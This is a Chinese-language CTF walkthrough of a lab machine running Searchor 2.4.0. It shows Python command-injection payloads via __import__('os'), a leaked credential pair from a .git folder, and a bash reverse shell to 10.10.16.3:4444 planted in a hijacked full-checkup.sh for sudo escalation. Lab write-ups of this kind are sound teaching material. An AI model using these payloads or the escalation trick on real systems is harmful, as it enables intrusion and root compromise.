##  nmap



## 80端口



最下面有版本号，并且点击会跳转到github的该项目

在release中可以看到2.4.2版本修复了一个高优先级漏洞



直接搜索该版本也可以搜索到该漏洞

https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection

它可以提供使用如下函数执行任意代码的能力：再加上print函数打印出来就可以回显

- `__import__('os').system('<CMD>')`
- `__import__('os').popen('<CMD>').read() `



可以在这里继续命令执行反弹shell也可以直接执行poc



## 提权

网站根目录下有.git文件，其中有cody用户的账号和密码



```
cody:jh1usoih2bkjaspwe92
```

查看svc具有那些root权限，执行sudo -l,要求输入密码，尝试输入cody的密码，密码正确

执行sudo -l时可能会报这种错，可以使用python获得一个shell

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```





具有执行一个python文件的权限，但是该权限没有可写权限，只能执行



尝试执行，给出了使用方法和参数



当前文件夹下还有full-check.sh文件，猜测可能是调用当前文件夹下的full-checkup.sh脚本



可以自己写一个full-checkup.sh上传到靶机，并且赋予执行权限然后再运行时就可以执行自己写的脚本

```
#! /bin/bash
bash -i &> /dev/tcp/10.10.16.3/4444 0>&1
```






